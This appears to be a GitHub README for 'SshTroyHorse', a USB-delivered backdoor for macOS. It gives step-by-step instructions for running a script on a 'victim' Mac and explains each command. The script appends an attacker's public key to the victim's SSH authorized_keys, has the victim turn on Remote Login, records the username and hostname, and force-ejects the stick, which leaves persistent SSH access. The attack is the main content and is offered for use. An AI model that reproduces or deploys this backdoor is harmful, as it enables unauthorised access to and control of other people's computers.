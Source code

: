 SshTroyHorse (OS X)
============

### What do we need?
    * A USB stick
    * A computer running OS X (We call this victim)
    * A computer running linux or OS X (We call this Gabriele)
    * Gabriele's public key (we assume we can find it in ~/.ssh/id_rsa.pub)

### How to setup?
    1. Download the .zip file and uncompress it.
    2. Copy the 2 bash script in the USB script.
    3. Run build.sh.
    4. Eject the USB stick and plug it in victim's computer.
    5. From victim's computer, run script.sh
    6. Put a tick in "Remote Login" when the sharing preferences page displays.
    7. script.sh should have finished its work yet, you can unplug it.
    8. open a terminal in Gabriele's computer and execute "ssh " + last username in "whoamis.txt" + "@" last hostname in "hostnames.txt"
    9. You should be able to login to victim's computer.

### How does it works?

`#! /bin/sh`
Declares a bash script.

`open /System/Library/PreferencePanes/SharingPref.prefPane/` opens the sharing preferences page.

`cat /Volumes/keyInstaller/id_rsa.pub >> ~/.ssh/authorized_keys` copies your public key in the target authorized keys.

`chmod 600 ~/.ssh/authorized_keys` gives right permissions to the public key.

`whoami >> /Volumes/keyInstaller/whoamis.txt` saves the active username in **whoamis.txt**

`hostname >> /Volumes/keyInstaller/hostnames.txt` saves the hostname in **hostnames.txt**

`toeject=$(df -h | grep /Volumes/keyInstaller) && toeject=${toeject:0:12}` **toeject** contains the string with the name of the device.

`diskutil unmount $toeject` unmounts the drive to eject

`diskutil unmountDisk force $toeject`: if the drive was not ejected, try forcing this.
